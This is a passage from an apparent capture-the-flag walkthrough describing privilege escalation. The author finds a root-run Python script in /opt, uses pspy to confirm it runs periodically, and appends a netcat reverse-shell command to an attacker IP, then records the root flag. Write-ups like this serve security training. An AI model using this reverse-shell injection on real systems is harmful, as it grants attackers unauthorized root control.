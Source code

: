 ![](./IMG/45.png)
7. Some interesting file upder /opt

![](./IMG/46.png)

### Privilege Escalation

- After many try in other suspcious part, I think the final one for privilege escalation is the python file under /opt
- Check the code: 
- It will remove the content under /tmp

![](./IMG/47.png)
- But I can't find any command to execute this python regularly.
- So, I upload pspy64 --> falied and pspy32.
```
/bin/sh -c python /opt/tmp.py
```

![](./IMG/48.png)
- Privilege Escalation code in python, then wait for about 3-4 min
```
echo "os.system('nc -e /bin/bash 10.10.17.145 1336')" >> /opt/tmp.py
```
- Get reverse shell
- Get root flag: ``` c9109e71b69944ac06de39e4bec51739 ```
